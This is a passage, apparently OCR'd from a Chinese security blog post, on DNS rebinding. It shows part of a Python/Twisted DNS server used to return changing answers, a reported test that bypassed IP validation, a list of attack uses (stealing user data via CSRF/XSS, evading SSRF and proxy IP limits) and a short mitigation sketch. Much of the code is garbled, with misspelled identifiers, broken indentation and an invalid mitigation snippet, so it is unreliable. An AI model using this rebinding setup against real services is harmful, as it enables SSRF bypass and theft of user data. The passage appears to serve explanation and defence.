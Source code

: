 ```python
        the_resolver = root.bootstrap(bootstrap, resolverFactory=client.Resolver)
        
    return resolver.ResolverChain([host_resolver, cache.CacheResolver(), the_resolver])
  
def main(port):
	factory = server.DNSServerFactory(
    	clients = [create_resolver(servers = [('8.8.8.8', 53)], hosts = 'hosts')],
    )
    protocol = dns.DNSDatagramProtocol(contrroller=factory)
    
    reactor.listenUDP(port, protocol)
    reactor.listenTCP(port, factory)
    reactor.run()
    
if __name__ == '__main__':
	if len(sys.argv) < 2 or not sys.agv[1].isdigest():
    	port = 53
    else:
    	port = int(sys.argv[1])
    main(port)
```

测试请求 1.asf.loli.club：

![](http://7d9lm5.com1.z0.glb.clouddn.com/2017-01-18-191000.jpg)

两次dns请求的结果不同，成功绕过ip验证

#### 攻击面

* csrf／xss窃取用户数据
* 绕过ssrf ip限制
* 绕过代理ip限制

#### 缓解措施

利用第一次请求解析的ip来进行后续的http／https请求即可

```python
def dns_resolve(hostname):
	...
    
def check_ip(ip):
	...
    
url = input()
ip = dns_resolve(urlparse(url.hostname))
if not check_ip(ip):
	return '403 Forbidden', 403
data = requests.get(ip, headers={'Host':url.hostname})
return data.content, data.status_code
```

#### 几个需要注意的问题
